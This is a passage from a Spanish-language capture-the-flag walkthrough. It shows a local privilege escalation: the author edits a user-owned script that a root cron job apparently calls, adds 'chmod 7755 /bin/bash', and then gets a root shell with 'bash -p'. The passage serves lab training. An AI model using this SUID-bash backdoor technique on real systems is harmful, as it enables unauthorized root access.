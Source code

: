 Vemos que el script, a parte de guardar el contenido de la variable `LIST` en el archivo `startup_list.txt`, manda llamar otro script.

```bash
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~/scripts$
```

Ojito, el otro script `/etc/print.sh` nosotros somos los dueños, por lo tanto, podemos editarlo. Suponiendo que el script `planner.sh` lo ejecute **root** mediante una tarea programada; si cambiamos el contenido de `/etc/print.sh`, significa que **root** también ejecutará nuestro script con el nuevo contenido, por lo tanto:

```bash
lennie@startup:~/scripts$ nano /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
chmod 7755 /bin/bash
lennie@startup:~/scripts$ 
```

Tratamos de hacer SUID a `/bin/bash`. Si esperamos aproximadamente como 1 minuto en lo que **root** ejecuta nuestro script:

```bash
lennie@startup:~/scripts$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
lennie@startup:~/scripts$
lennie@startup:~/scripts$ ls -la /bin/bash
-rwsr-sr-t 1 root root 1037528 Jul 12  2019 /bin/bash
lennie@startup:~/scripts$
```

La `/bin/bash` ya es SUID, por lo tanto ya podemos convertirnos en **root**:

```bash
lennie@startup:~/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).